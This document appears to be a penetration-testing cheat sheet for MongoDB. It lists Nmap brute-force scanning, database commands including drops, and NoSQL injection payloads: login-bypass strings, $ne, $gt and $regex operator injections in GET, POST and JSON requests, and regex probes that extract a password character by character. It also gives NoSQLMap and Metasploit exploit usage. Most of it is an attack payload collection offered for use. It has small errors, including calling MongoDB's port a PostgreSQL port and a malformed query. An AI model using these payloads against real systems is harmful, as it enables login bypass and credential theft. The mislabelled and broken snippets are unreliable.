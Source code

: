 # MongoDB  

PostgreSQL default port: `27017/tcp`

- [MongoDB](#mongodb)
  - [Nmap](#nmap)
  - [Client](#client)
    - [Databases](#databases)
    - [Collection](#collection)
      - [Search in collection](#search-in-collection)
  - [Injection NoSQL](#injection-nosql)
    - [Basic login bypass](#basic-login-bypass)
    - [Get request](#get-request)
    - [Post request](#post-request)
    - [JSON](#json)
  - [Tools](#tools)
    - [NoSQLMap](#nosqlmap)
    - [Metasploit MongoDB modules](#metasploit-mongodb-modules)
  - [Source](#source)

## Nmap

```bash
nmap -sV -sC TARGET_IP -p 27017 --script mongodb-databases,mongodb-info,mongodb-brute
```

## Client

Local host 

    mongo

Remote host 
```zsh
mongo TARGET_IP
mongo TARGET_IP:PORT_NB/DATABASE_NAME
mongo TARGET_IP:PORT_NB DATABASE_NAME -u 'USERNAME' -p 'PASSWORD'
```

### Databases

View databases

```sql
SHOW databases
```
SELECT database

```sql
USE [DATABASE_NAME]
```

Drop database

```sql
db.dropDatabase()
```

### Collection

```sql
show collections
db.createCollection("COLLECTION_NAME")
db.getCollectionNames();
```


```sql
db.COLLECTION_NAME.find()
db.COLLECTION_NAME.insert({id:"1", username: "admin", password: "adminpass"})
db.COLLECTION_NAME.update({id:"2"}, {$set: {username: "bob"}});
db.COLLECTION_NAME.remove({'id':'2'})
db.COLLECTION_NAME.drop()
```


#### Search in collection

```sql
db.COLLECTION_NAME.findOne({username: "admin")
db.COLLECTION_NAME.findOne({username: "admin", password: {"$ne":"xyz"}})
```


|Operators|Description|
|:--------|:----------|
|$eq|matches records that equal to a certain value|
|$ne|matches records that are not equal to a certain value|
|$gt|matches records that are greater than a certain value.|
|$where|matches records based on Javascript condition|
|$exists|matches records that have a certain field|
|$regex|matches records that satisfy certain regular expressions.|

## Injection NoSQL

### Basic login bypass

```sql
' || 1==1//
' || 1==1%00
```


### Get request

    http://TARGET_IP/search?username=ben&role=user
    http://TARGET_IP/search?username[$ne]=ben&role=user

### Post request 

login bypass

```sql
username=admin&password[$ne]=NoThePassword
username[$eq]=admin&password[$ne]=NoThePassword
username[$eq]=admin&password[$regex]=.*
```

Extract length information

```sql
username[$eq]=admin&password[$regex]=.{1}
username[$eq]=admin&password[$regex]=^.{3}$
username[$eq]=admin&password[$regex]=^.{3,6}$
```

```sql
username[$eq]=admin&password[$lt]=s
username[$eq]=admin&password[$gt]=s
```

```sql
username=admin&password[$regex]=m.*
username=admin&password[$regex]=md.*
```

### JSON

```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$e": "admin"}, "password": {"$ne": "NoThePassword"}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

## Tools

### NoSQLMap

Source:

    https://github.com/codingo/NoSQLMap.git

Command:

```zsh
nosqlmap.py --victim 'http://IP_ADDRESS' --attack 2 --webPort PORT_NB --uri /index.php --httpMethod POST --postData ARG_1,ARG_2,ARG_3
```

### Metasploit MongoDB modules

    auxiliary/scanner/mongodb/mongodb_login
    auxiliary/gather/mongodb_js_inject_collection_enum
    exploit/linux/misc/mongod_native_helper

## Source

- https://medium.com/rangeforce/nosqlmap-a67d76b88c48
- https://book.hacktricks.xyz/pentesting-web/nosql-injection
- https://www.rapid7.com/blog/post/2016/07/28/pentesting-in-the-real-world-going-bananas-with-mongodb/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
